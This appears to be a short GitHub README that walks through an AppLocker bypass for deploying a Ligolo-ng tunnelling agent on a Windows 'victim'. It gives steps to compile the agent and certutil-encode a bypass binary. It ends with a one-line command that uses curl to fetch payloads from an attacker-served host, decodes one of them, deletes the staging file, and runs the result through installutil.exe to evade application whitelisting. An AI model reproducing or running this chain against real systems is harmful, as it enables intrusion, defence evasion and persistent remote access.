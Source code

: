 ### Step 1: Modify the Ligolo-ng agent's main file
  - Clone ligolo-ng repo: https://github.com/nicocha30/ligolo-ng. 
  - Open and edit main.go to adjust the settings as needed: /ligolo-ng/cmd/agent/main.go 
   
  <img width="653" alt="{CAC55401-20B8-42A1-BCDE-EBF6E1DFC442}" src="https://github.com/user-attachments/assets/4d52a625-d15d-477d-a46e-63659f503c42" /> 

### Step 2: Compile the agent 
  Use the following command to compile: 
  - GOOS=windows go build -o agent.exe cmd/agent/main.go

### Step 3: Encode the ApplockerBypassExternalBinary executable with certutil 
  certutil -encode .\ApplockerBypassExternalBinary.exe AppLockerBypassLigolo.

### Step 4: Execution on the Target Machine
  Name the agent executable `ligolo-agent.exe` 
  Make sure both executable and the encoded .txt file in the same directory, then serve them with python server.

### Step 5: Execution in Action! 
  On victim, run: `cmd.exe /c curl http://192.168.45.185/ligolo-agent.exe -o C:\users\public\try-agent.exe && curl http://192.168.45.185/  AppLockerBypassLigolo.txt -o C:\users\public\enc.txt && certutil -decode C:\users\public\enc.txt C:\users\public\ligolo.exe && del C:\users\public\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=true /U C:\users\public\ligolo.exe`
